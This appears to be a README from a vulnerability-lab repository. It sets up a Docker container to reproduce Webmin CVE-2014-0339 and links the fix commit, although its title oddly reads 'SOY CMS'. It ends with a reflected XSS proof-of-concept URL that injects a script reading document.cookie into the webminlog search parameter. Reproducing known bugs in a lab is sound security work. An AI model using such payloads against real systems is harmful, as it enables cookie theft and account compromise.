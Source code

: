 # SOY CMS

## Building information

```console
$ docker build -t webmin ./
$ docker run -d -it --rm --name webmin -p 8080:80 webmin
```

## Vulnerability Details

- CVE-2014-0339
- https://github.com/webmin/webmin/commit/3b6234b511f97d18f4941c618ac594e73d8f7bda

### PoC

`http://localhost:8080/webminlog/view.cgi?id=1&search=e"><script>alert(document.cookie);</script>`
